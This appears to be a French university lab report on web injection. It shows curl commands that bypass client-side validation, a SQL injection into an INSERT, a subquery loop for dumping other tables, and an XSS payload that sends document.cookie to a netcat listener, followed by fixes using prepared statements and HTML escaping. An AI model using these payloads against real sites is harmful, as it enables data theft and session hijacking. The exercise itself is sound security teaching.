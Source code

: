 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr  
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr

## Question 1

- Quel est ce mécanisme?

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

- Est-il efficace? Pourquoi?  
  Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

- Votre commande curl

```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

- Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1

```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```

- Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans les colonnes txt et who de notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable), (SELECT col2 FROM otherTable))`, il suffirait de limiter chaque select pour n'avoir qu'un seul resultat et ne pas provoquer une erreur SQL : 'Subquery returns more than 1 row'. Ca peut se faire par exemple en rajoutant une clause where id=1 et incrémenter cette id dans une boucle while où on exécutera notre commande curl en boucle afin de récuperer tous les enregistrements. Commande SQL final : `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable where id=i), (SELECT col2 FROM otherTable where id=i))` i s'incrémente à chaque boucle.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Nous utilisons donc un Parameterized query et prepared statement afin d'évitez les injections SQL. Pour cela nous devons premièrement mettre en place un prepared statement sur notre cursor comme ceci : `cursor = self.conn.cursor(prepared=True)`. Ensuite, nous avons créer la parameterized SQL query qui utilisent deux placeholders comme ceci : `requete = "INSERT INTO chaines (txt,who) VALUES(%s, %s)"` Les inputs rentrés par l'utilisateur vont se retrouver dans un tuple `values = (post["chaine"], cherrypy.request.remote.ip)` qui va prendre la place de ces placeholders(%s, %s). Il ne suffit plus maintenant que d'utiliser la méthode `execute` du `cursor` afin d'exécutur notre requête SQL, celui-ci prend donc notre parameterized SQL query et notre tuple, comme ceci : `cursor.execute(requete, values)`.  
Ce mécanisme permet d'empêcher donc l'injection SQL de la Question 3

## Question 5

- Commande curl pour afficher une fenetre de dialog.

```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

- Commande curl pour lire les cookies .

D'abord il faut lancer la commande netcat : `nc -l -p 8081` et on pourra voir le contenu du cookie dans le terminal où cette commande a été lancé

```
curl -d 'chaine=<script>window.location.replace("http://localhost:8081/search?cookie=" %2B document.cookie)</script>'  http://localhost:8080;

```

## Question 6

- Rendre un fichier server_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.

  - On escape la chaine passée en paramètre avant l'insertion en base de donnée, la chaine inserée ne contiendra donc aucun caractère qui pourrait être interprété comme du html quand on l'insèrera dans la page html. Comme ceci : `values = (html.escape(post["chaine"]), cherrypy.request.remote.ip)`

  - On peut également escape la chaine dans l'html au cas où des scripts se trouve déja dans la base de donnée comme ceci : `'''+"\n".join(["<li>" + html.escape(s) + "</li>" for s in chaines])+'''`. Cette démarche est inutile dans le cas où toutes les requêtes passe par ce serveur qui utilise l'html escape juste avant l'insertion en base de donnée.
